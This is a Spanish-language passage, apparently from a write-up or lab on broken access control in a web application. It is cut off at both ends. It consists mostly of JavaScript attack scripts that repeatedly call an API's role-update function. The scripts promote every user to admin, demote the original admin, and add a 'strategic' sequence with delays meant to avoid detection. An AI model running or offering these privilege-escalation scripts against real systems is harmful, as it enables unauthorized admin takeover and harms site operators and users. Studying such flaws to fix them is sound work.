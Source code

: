 ```javascript

// Ejecutar auto-promoción
promoteToAdmin();
```

#### **Método 2: Ataque Masivo de Promoción**
```javascript
// Script para convertir todos los usuarios en admins
const promoteAllUsers = async () => {
  console.log("🚨 INICIANDO ATAQUE MASIVO DE PROMOCIÓN");
  
  const results = [];
  
  for (let userId = 1; userId <= 4; userId++) {
    try {
      await api.updateUserRole(userId, 'admin');
      results.push({ userId, status: 'success', message: 'Promoted to admin' });
      console.log(`✅ Usuario ${userId} promovido a admin`);
    } catch (error) {
      results.push({ userId, status: 'failed', message: error.message });
      console.log(`❌ Falló promover usuario ${userId}: ${error.message}`);
    }
  }
  
  console.log("📊 RESULTADOS DEL ATAQUE:");
  console.table(results);
  
  return results;
};

// Ejecutar ataque masivo
promoteAllUsers();
```

#### **Método 3: Manipulación Estratégica de Roles**
```javascript
// Script más sofisticado para manipular roles estratégicamente
const strategicRoleManipulation = async () => {
  const currentUser = api.decodeCurrentToken();
  console.log(`🎯 Iniciando manipulación estratégica desde: ${currentUser?.username}`);
  
  const strategy = [
    { id: 1, role: 'user', reason: 'Degradar admin original' },
    { id: currentUser.id, role: 'admin', reason: 'Auto-promoción' },
    { id: 3, role: 'admin', reason: 'Crear aliado admin' },
    { id: 4, role: 'user', reason: 'Mantener como usuario normal' }
  ];
  
  console.log("📋 ESTRATEGIA DE ATAQUE:");
  console.table(strategy);
  
  for (const action of strategy) {
    try {
      await api.updateUserRole(action.id, action.role);
      console.log(`✅ ${action.reason}: Usuario ${action.id} → ${action.role}`);
      
      // Pausa entre cambios para evitar detección
      await new Promise(resolve => setTimeout(resolve, 500));
      
    } catch (error) {
      console.log(`❌ Falló ${action.reason}: ${error.message}`);
    }
  }
  
```